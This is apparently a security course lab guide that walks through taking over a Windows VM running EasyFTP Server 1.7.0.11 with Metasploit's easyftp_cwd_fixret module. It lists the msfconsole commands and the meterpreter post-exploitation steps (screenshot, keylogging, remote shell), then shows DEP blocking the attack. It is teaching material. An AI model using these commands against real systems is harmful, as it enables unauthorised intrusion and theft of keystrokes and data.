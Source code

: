 # Taking Control of a Server with Metasploit

## Description
- Take control of a server on which EasyFtp Server 1.7.0.11 is installed and on service with [Metasploit](https://www.metasploit.com/)
  - There is a vulnerability of stack-based buffer overflow in [EasyFTP Server 1.7.0.11 and earlier](https://www.rapid7.com/db/modules/exploit/windows/ftp/easyftp_cwd_fixret/)
  - There is an [exploit](https://www.exploit-db.com/exploits/14402) integrated with [metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/ftp/easyftp_cwd_fixret.rb)
- There are [many software](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=buffer+overflow) contain the vulnerability of buffer overflow, but not all of them can be used to take control of a server

## Equipments
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Tasks
On Windows server VM, 🪟

0. Stop the FileZilla server
1. Install, configure and run EasyFTP
   1. Download [EasyFTP Server 1.7.0.11](../repo/easyftp-server-1.7.0.11-en.7z)
   2. unzip it with [7-zip](https://www.7-zip.org/). If you did not install 7-zip, download and install it first
   3. In the unzipped folder, run ftpconsole
   4. Stop the FTP service
   5. Configure the FTP service binding IP address to the Windows VM IP
   6. Restart EasyFTP Server. If the service won't start, delete the possibly installed broken version
   ```cmd
   :: open a command windows, run it as Administrator
   sc delete easyftpbasicsvr
   ```

On Kali Linux VM, 🐧 in a command terminal

2. Exploit the Windows target

```bash
# 2.1 Find a metasploit exploit
# ~$ - inside terminal msf> - inside metasploit
~$ msfconsole -q
msf> search easyftp

# 2.2 Select options and target
msf> use exploit/windows/ftp/easyftp_cwd_fixret
msf exploit(easyftp_cwd_fixret) > show options # find the required options

msf exploit(easyftp_cwd_fixret) > show targets

# 2.3 Exploit the target
msf exploit(easyftp_cwd_fixret) > set RHOST Windows_VM_IP
msf exploit(easyftp_cwd_fixret) > set TARGET Number_of_target_Windows_Universal - v1.7.0.11
msf exploit(easyftp_cwd_fixret) > exploit # enter meterpreter if succeeded

# 2.4 Loot the target
# 2.4.1 find the usage of meterpreter
meterpreter > help
# 2.4.2 get the system information of the victim
meterpreter > sysinfo
# 2.4.3 get an image of the target's desktop
meterpreter > screenshot
# 2.4.4 key logging
# Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
meterpreter > keyscan_start
# Shows the keystrokes captured so far
meterpreter > keyscan_dump	

# 2.4.5 Get a Windows Command Prompt on the target
meterpreter > shell
# Leaves the Windows Command Prompt
C:\Users\Administrator :$ exit
meterpreter > 

# 2.4.6 exit meterpreter
meterpreter > exit
msf >

# 2.4.7 exit metasploit
msf > exit
~ $
```

On Windows server VM, 🪟

3. Hardening the target machine by turning on Data Execution Protection (DEP) 
4. Restart Windows server VM then restart EasyFTP

On Kali Linux VM, 🐧

5. Launch the easyftp_cwd_fixret exploit again

On Windows server VM, 🪟

6. If you see a box pops up saying "ftpbasicsvr.exe has stopped working", then DEP has saved your server by stopping the attack!


# Reference
- [Project 3C: Metasploit v. EasyFTP](https://samsclass.info/123/proj14/p3cmet.htm)
- *Metasploit*
  - [METERPRETER BASIC COMMANDS](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
  - [Ultimate List of Meterpreter Commands](https://www.hackers-arise.com/ultimate-list-of-meterpreter-command)
  - [Metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)